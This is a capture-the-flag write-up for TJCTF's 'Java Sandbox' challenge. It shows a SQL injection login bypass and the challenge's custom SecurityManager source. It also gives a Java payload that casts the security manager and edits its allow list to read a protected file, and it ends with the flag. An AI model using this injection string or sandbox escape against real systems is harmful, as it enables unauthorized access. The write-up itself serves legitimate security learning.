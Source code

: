 # Java Sandbox (100 pts)

---

## Problem
Everyone's heard of python jail escapes, but what about Java? [Java Sandbox](http://javasandbox.p.tjctf.org/)

---

## Solution
At first, we are presented with a login portal. We try a random username and password, and a message in the corner appears to try MySQL injection.

We then login successfully with the username `' or ''='` and password `' or ''='`

At this point we reach a page where we can type, then submit a java program to compile and run it. In the security page, we are told that the flag resides at `/var/www/flag.txt`. We created a small java program to attempt to read this flag:

```java
import java.io.BufferedReader;
import java.io.FileReader;

public class Main {
    public static void main(String[] args) throws Exception {
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

However, when we submit this program, we get an error message saying that access was denied by the security manager, and we don't have permissions to read it.

We then see that source for the custom security manager and the program wrapper is available on the security page as well:

```java
import java.lang.reflect.Method;
import java.security.Permission;
import java.util.ArrayList;
import java.util.Arrays;
class CustomSecurityManager extends SecurityManager {
    ArrayList<String> allow;
    String insecureClassName;
    String[] allowedLibraries = new String[] {"com.google","twitter4j","com.securefiledownloader"};
    public CustomSecurityManager(String className, String[] allowed) {
        insecureClassName = className;
        allow = new ArrayList<String>(Arrays.asList(allowed));
        // allow standard jre libraries
        allow.add(System.getProperty("java.home"));
    }

    public boolean checkAllow(String str) {
        for (String i : allow) {
            if (str.startsWith(i))
                return true;
        }
        return false;
    }

    public boolean isLibrary() {
        StackTraceElement[] stack = Thread.currentThread().getStackTrace();
        for (StackTraceElement s : stack) {
            // reached end
            if ((""+s).startsWith("Wrapper") || (""+s).startsWith(insecureClassName)) {
                return false;
            }
            // pass cases that obviously aren't libraries
            if ((""+s).startsWith("CustomSecurityManager") || (""+s).startsWith("java.") || (""+s).startsWith("sun.")) {
                continue;
            }
            for (String x : allowedLibraries) {
                if ((""+s).startsWith(x)) {
                    return true;
                }
            }
        }
        return false;
    }

    @Override
    public void checkPermission(Permission perm) {
        if (perm instanceof java.io.FilePermission) {
            if (!perm.getActions().equals("read")) {
                throw new SecurityException(""+perm);
            }
            // allow trusted libraries to access files
            if (!isLibrary()) {
                if (!checkAllow(perm.getName())) {
                    throw new SecurityException("File access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.net.SocketPermission || perm instanceof java.net.NetPermission || perm instanceof javax.net.ssl.SSLPermission) {
            // allow trusted libraries to access the internet
            if (!isLibrary()) {
                // need this to create URLs
                if (!perm.getName().equals("specifyStreamHandler")) {
                    throw new SecurityException("Socket access denied! "+perm);
                }
            }
        }
        else if (perm instanceof java.lang.RuntimePermission) {
            if (perm.getName().equals("setSecurityManager") || perm.getName().equals("createSecurityManager")) {
                throw new SecurityException("Nope! "+perm);
            }
            if (perm.getName().equals("createClassLoader") || perm.getName().equals("preferences")) {
                throw new SecurityException("Nah... "+perm);
            }
            if (perm.getName().equals("queuePrintJob")) {
                throw new SecurityException("Why... "+perm);
            }
        }
        else if (perm instanceof java.security.SecurityPermission) {
            throw new SecurityException("Permission denied! "+perm);
        }
        else if (perm instanceof java.sql.SQLPermission || perm instanceof java.util.logging.LoggingPermission || perm instanceof java.awt.AWTPermission) {
            // just in case...
            throw new SecurityException("Permission denied! "+perm);
        }
        // i think thats everything
    }
}

import java.lang.reflect.Method;
public class Wrapper {
    public static void main(String[] args) {
        args[0] = "Main";
        // args[0] is the name of the class to run
        // args[1] is a colon separated list of directories your program can access
        System.setSecurityManager(new CustomSecurityManager(args[0], args[1].split(":")));
        try {
            Class<?> unsafeClass = ClassLoader.getSystemClassLoader().loadClass(args[0]);
            Method m = unsafeClass.getMethod("main", String[].class);
            m.invoke(null, new Object[] {new String[] {}});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Upon analysing this, we see that access to the file is restricted because its path is not in the `allow` list.

From the wrapper class, we see that CustomSecurityManager is in the same namespace as where "Main" (the uploaded class) is located. This means we can reference the CustomSecurityManager directly.

We then run the following code and successfully read the flag:
```java
import java.io.BufferedReader;
import java.io.FileReader;
import java.util.List;
public class Main {
    public static void main(String[] args) throws Exception {
        CustomSecurityManager csm = (CustomSecurityManager)System.getSecurityManager(); //get instance of the CustomSecurityManager class
        System.out.println(csm.allow);
        List<String> allow = csm.allow; //add to the allow list
        allow.add("/var/www/flag.txt");
        System.out.println(allow);
        BufferedReader read = new BufferedReader(new FileReader("/var/www/flag.txt"));
        System.out.println(read.readLine());
    }
}
```

---

## Flag
`tjctf{j4V4_R3FL3C710n_15_7R1CkY}`